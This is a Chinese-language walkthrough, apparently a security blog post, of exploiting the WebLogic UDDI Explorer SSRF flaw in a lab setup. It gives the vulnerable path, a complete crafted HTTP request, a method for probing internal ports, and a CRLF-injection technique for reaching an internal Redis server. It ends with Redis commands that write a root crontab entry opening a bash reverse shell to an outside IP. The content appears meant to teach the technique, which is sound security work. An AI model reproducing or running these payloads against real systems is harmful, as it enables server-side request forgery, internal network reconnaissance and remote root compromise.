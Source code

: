   
SSRF 漏洞存在路径如下  
```
http://<IP/DomainName>:7001/uddiexplorer/SearchPublicRegistries.jsp
```  
  
浏览器访问靶机：  
  
http://192.168.111.128:7001/uddiexplorer/SearchPublicRegistries.jsp  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVEEpicq9uEJR4oUDWlJhtw0Uc3KZKpJ83uAe2xrcO2DbXtJXsYpv6Jjuw/640?wx_fmt=png&from=appmsg "")  
  
构造 HTTP 请求包发起 SSRF 攻击  
```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7001 HTTP/1.1
Host: 192.168.111.128:7001
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```  
  
其中 operator 是可控参数，下面是几种响应结果  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVEksFEpjnibF3IL4KCdoufS9TLy1eCDQiaRiarLdXZY2Al1Ok5hGvOZIKgA/640?wx_fmt=png&from=appmsg "")  
  
如果进行端口探测，如果端口是否对外开放的响应结果是不同的，具体可以看 An error has occurred字符串下面的内容，下面是端口对外开放的响应包。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVErRJoN9PfiaYULldUnib1rwf58QBwC2RCRIfKnia6n0CFurCdQRTg4WHTA/640?wx_fmt=png&from=appmsg "")  
  
下面是端口不对外开放的响应包，响应的内容大概是连接不到 127.0.0.1:7000  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVEvf0ialbQHxLrQ2rlHnOM4OKcFCk2uLicKGPvXRQuMWeceqVZB390bwNg/640?wx_fmt=png&from=appmsg "")  
  
查看 docker 环境的 IP（其实这里获取 IP 的方式在实战中不可行），检测 docker 环境中开启了什么服务  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVEHtXshZiad1O1R4L9QZCtYa5GhRwK72eT1RkKd5vtibROhMQyTjbSWomw/640?wx_fmt=png&from=appmsg "")  
  
可以通过 Setup UDDI Explorer获取内网 IP 的  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVEonvwibp9J1uddEE31EPjicGygl1HFcG7sTlkKUT1aOhYOshvp6ibxX22g/640?wx_fmt=png&from=appmsg "")  
  
也可以使用脚本进行内网探测  
  
在对内网端口探测时  
发现可以连接 redis 服务  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVEhG7hSocjb9maClGy48FN6HvLnLk8fZ3vwWibicKcKqtko9o40jS6ZsRg/640?wx_fmt=png&from=appmsg "")  
  
WebLogic的SSRF有一个比较大的特点，其虽然是一个“GET”请求，但是我们可以通过传入%0a%0d来注入换行符，而某些服务（如redis）是通过换行符来分隔每条命令，也就说我们可以通过该SSRF攻击内网中的redis服务器。这里利用redis反弹Shell。  
```
set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/192.168.235.9/7777 0>&1\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
aa
```  
  